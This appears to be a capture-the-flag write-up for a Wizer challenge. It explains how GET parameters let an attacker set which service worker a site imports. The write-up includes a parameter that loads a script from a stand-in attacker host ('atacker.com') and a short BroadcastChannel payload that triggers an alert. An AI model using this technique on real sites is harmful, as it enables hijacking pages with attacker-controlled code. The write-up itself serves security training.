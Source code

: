 
Here if we put GET parameter `mode=sw` then we can control the value of `const sw` it will be what we give in GET parameter `color`.

explanation: 

Parameter Retrieval:
- `modeParam = searchParams.get('mode')`:  
  1. Stores the value of the query parameter named `mode` in the `modeParam` variable.

- `colorParam = searchParams.get("color")`:
  1. Similarly, retrieves the value of the `color` parameter and stores it in `colorParam`.

Element Updates:
- `document.getElementById("mode").children[0].id = modeParam;`:
  1. Finds the element with the ID "mode" and targets its first child element.
  2. Sets the id attribute of the child element to the value of `modeParam`.

- `document.getElementById(modeParam).textContent = colorParam;`:
  1. Uses the value of `modeParam` to look up an element by its ID
  2. Sets the textContent of that element to the value of `colorParam`.

Service Worker Registration:
- `sw = document.getElementById('sw').innerText;`:
  1. Retrieves the innerText (text content) of the element with the ID "sw".
  2. Stores the retrieved content in the `sw` variable.


`https://events.wizer-ctf.com/sw.js?sw=` have the following code

```js
// Allow loading in of service workers dynamically
importScripts('/utils.js');
importScripts(`/${getParameterByName('sw')}`);
```

It will import the serviceWorker from the value of `sw` since we can control it we can import our own serviceWorker with `sw=\\atacker.com/sw.js`. \
This will get the file from `https://atacker.com/sw.js`

now to craft our serviceWorker take a look at this

![image](https://github.com/Aftab700/Writeups/assets/79740895/32e8eeae-7d95-4513-bead-2c04a566bb6e)


this will listen for message event on BroadcastChannel('recipebook') and it will alert the `message` property of a message.

BroadcastChannel enables communication between different windows, tabs, or workers within the same origin. postMessage() method will trigger the 'message' event on other instances of the BroadcastChannel with the same name.

so in serviceWorker we create a new BroadcastChannel instance using the same name ('recipebook'): \
`const channel = new BroadcastChannel('recipebook');` \
Use the postMessage() method on the BroadcastChannel instance to send a message with a message property: \
`channel.postMessage({ message: 'Wizer' });`

serviceWorker payload:
```js
const channel = new BroadcastChannel('recipebook');
channel.postMessage({ message: 'Wizer' });
```
